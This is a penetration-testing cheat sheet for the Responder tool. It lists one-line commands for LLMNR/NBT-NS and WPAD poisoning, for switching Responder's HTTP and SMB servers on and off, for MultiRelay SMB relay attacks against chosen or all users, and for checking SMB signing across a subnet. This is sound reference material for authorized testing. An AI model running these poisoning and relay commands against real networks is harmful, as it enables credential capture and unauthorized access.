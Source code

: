 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I <interface>
```
## responder launch - poison with another ip
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I <interface> -e <ip>
```


## responder launch - analyze mode (no poisoning)
#plateform/linux #target/remote #cat/RECON 
```
responder –I <interface> -A
```

## responder launch with wpad file 
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I <interface> --wpad
```


## responder launch with wpad file 
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I <interface> --wpad
```

## responder http on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#plateform/linux #target/remote #cat/RECON 
```
responder-runfinger -i <network_range>
```

